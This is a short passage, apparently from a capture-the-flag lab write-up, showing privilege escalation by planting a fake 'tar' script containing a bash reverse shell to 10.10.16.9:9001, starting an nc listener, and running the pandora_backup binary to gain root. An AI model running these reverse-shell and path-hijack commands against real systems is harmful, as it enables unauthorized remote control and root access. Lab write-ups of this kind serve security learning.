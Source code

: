 ```bash
nano tar

#########CONTENT

#!/bin/bash
bash -i >& /dev/tcp/10.10.16.9/9001 0>&1
```

Now let’s change it’s permission, then start a listener and execute pandora_backup:

```bash
chmod +x tar

#on attack box
nc -lnvp 9001

#back on target
/usr/bin/pandora_backup
```

We now have root:

![image.png]({{ site.baseurl }}/assets/pandora/image%2016.png)